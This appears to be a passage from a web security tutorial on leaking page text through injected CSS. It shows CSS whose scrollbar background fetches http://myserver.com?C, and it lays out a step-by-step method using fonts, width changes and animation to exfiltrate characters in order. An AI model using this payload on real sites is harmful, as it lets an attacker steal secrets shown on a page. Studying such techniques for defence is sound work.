 ``` css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

So how do we keep using new font-families? We can use CSS animation to continuously load different font-families and specify different `--leak` variables.

In this way, we can know what the first character on the screen is.

After knowing the first character, we can make the width of the div longer, for example, to 40px, which can accommodate two characters. Therefore, the first line will be the first two characters, and then we can use the same method to load different font-families to leak out the second character, as follows:

1. Assuming that the screen displays ACB
2. Adjust the width to 20px, and only the first character A appears on the first line
3. Load the font "fa", so A is displayed in a larger font, the scrollbar appears, load the scrollbar background, and send a request to the server
4. Load the font "fb", but since B does not appear on the screen, nothing will change.
5. Load the font "fc", but since C does not appear on the screen, nothing will change.
6. Adjust the width to 40px, and the first line displays the first two characters AC
7. Load the font "fa", same as step 3
8. Load the font "fb", B is displayed in a larger font, the scrollbar appears, and the background is loaded
9. Load the font "fc", C is displayed in a larger font, but because the same background has been loaded, no request will be sent
10. End

From the above process, it can be seen that the server will receive three requests in sequence, A, C, B, representing the order of the characters on the screen. Changing the width and font-family continuously can be achieved using CSS animation.
